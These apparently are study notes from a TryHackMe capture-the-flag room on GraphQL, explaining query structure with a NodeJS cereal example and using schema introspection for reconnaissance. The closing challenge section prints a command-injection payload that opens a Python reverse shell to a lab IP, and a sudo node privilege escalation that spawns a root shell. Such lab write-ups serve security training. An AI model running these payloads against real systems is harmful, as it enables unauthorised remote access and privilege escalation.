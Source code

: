 # GraphQL

## What is GraphQL

GraphQL is a way to interact with APIs.
It is not a database, nor a database language,
it is simply a way to interact with APIs.
For example let's say you were trying to figure out the nutritional information
of a box of cereal given that cereal's name.

In a normal REST api, you might do something like this

```bash
curl cereal.api -d "title='Lucky Charms'"
```

and you would receive a JSON response looking like

```json
{
    "sugar": "50000000g"
    "protein": "0g"
    ...
}
```

In GraphQL, your query would look like this

```GraphQL
{
Cereal(name: "Lucky Charms")
  {
   sugar
   protein
  }
}  
```

Note: you can still use curl with GraphQL,
you would just need to URL encode this into something that curl would accept.

It's important to note that GraphQL **isn't inherently vulnerable**,
however since we have the ability to pass data to an API,
all of the same injection techniques still apply.
However GraphQL specifically does give us some information that we can use to
help aid our efforts, and we'll learn more about that in the upcoming tasks

## How GraphQL works

In order to properly understand how to use the information that GraphQL gives us,
we need to know how to write a query. In essence, a GraphQL query works like this.

```GraphQL
{

type  {
     field,
     field,
      ...
        }
}
```

*All code examples are in NodeJS, using Express*

```javascript
var schema = buildSchema(
    type Query {
        Cereal(name: String): Cereal
    },
    type Cereal {
        name: String
        sugar: String
        protein: String
    }
);

var cereal = [
    {
        "name": "Lucky Charms",
        "sugar": "50000000g",
        "protein": "0mg"
    },
    {
        "name": "Cinnamon Toast Crunch",
        "sugar": "50000000000g",
        "protein": "0mg"
    }
]

var getCereal = function(args) {
    for(i = 0; i < cereal.length; i++) {
        if(cereal[i]["name"] == args.name) {
            return cereal[i];
        }
    }
}

var root = {
    Cereal: getCereal,
};
```

Welp `schema` is where we define the types we are able to use,
as well the fields of those types.
"Query" is the root type, anything put in here we are allowed to use in our query.
In this type we state that we want the ability to use the object Cereal in our query,
we want it to take an argument called name, and we want it to be of Type Cereal

We provided the name of the object we defined in query,
and the argument we specified that it should take.

Next we have the type Cereal,
here we define all of the fields that can return data in our response.

We specified that sugar and protein are valid data fields,
and we can see that they return data.
You may have noticed that name is not part of the query,
that is because we are not required to specify all of the fields,
we can get as much or as little information as we need!

Next we are defining the data that can be returned by the query.

From a developers stand point, this shows us how we can return data,
and it's in pretty much the exact same as JSON.
We can change and manipulate this data as needed.

Next we define the function that does all of the work.

This code takes the input that we provide in our query,
goes through our cereal array, and checks if a valid cereal name is in the array.
If we were to make a query with the input  Cereal(name: "Cinnamon Toast Crunch")
it would take that name value and return

Which is the exact format that GraphQL expects to return data in.

Next we have the root variable.

This is pretty simple,
it tells GraphQL that whenever it's dealing with the Cereal object,
to use the getCereal function.

For a final go through, it works like this.
We use the object Cereal, and provide an input of "Cinnamon Toast Crunch".
Then we request that we want to
know how much sugar and how much protein is in the cereal.
The API takes our input, puts it in the getCereal function and returns our output.

## How to extract sensitive info from GraphQL

One great benefit is that GraphQL effectively documents itself.
GraphQL comes bundled with certain objects, types,
and fields that allow us to get information on all the other types, fields, and objects.

From the perspective of a Penetration Tester,
this means that we aren't going into this fully blind,
with a regular API we may just have to guess and pray at endpoints and parameters
if there's no publicly available documentation,
however GraphQL gives us this information.
Let's take a look at just how that works.

Let's go through this query, recall that in the code,
we defined all of our types in the schema method.
GraphQL actually documents this, through the `__schema` object,
which contains information about all the types we defined.
Next we want to know about types, so we query the field types.
From there all we need to do is query the name and description of those types
which gives us the output shown below.

It's pretty intuitive,
we're requesting information on all of the types that GraphQL has,
it just so happens that it shows us types that we created.
Just by looking at it, we can tell that Cereal is a pretty suspicious type,
let's request more information about it.

We can use the build in object `_type` to do this,
we use the name parameter to specify which type we want more information on.
From there we can query what the fields are for whatever type we can specify,
and then we can get the name of all of those fields.

Now we know all of the fields we can query.
With a typical REST API,
getting this much information could have taken quite a while in fuzzing!
Overall introspection is a useful way to get additional information on the API
and how it works.

[poat](https://tryhackme.com/room/graphql)

## A note

The interface that you've been seeing me use is called GraphIQL.
It's effectively just a graphical web interface to make GraphQL queries,
which is installed alongside the NodeJS GraphQL module and can only make queries
to the server on which it is installed.
Because of this, when you're pentesting GraphQL, you may not have access to GraphIQL.
In this case you may need to URL encode your queries and manually make a post
request using a tool like CuRL, like you would with any other API.

Note:  While GraphIQL is exclusive to your server,
there is a chrome/firefox extension that acts as a client to other servers called
[Altair](https://altair.sirmuel.design/).

## Challenge

```GraphQL
{
  Ping(ip: "10.10.179.108 & python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.11.1.219\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' ") {
    output
  }
}
```

```javascript
inside server.js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});
```

```bash
sudo /usr/bin/node /home/para/server.js
```
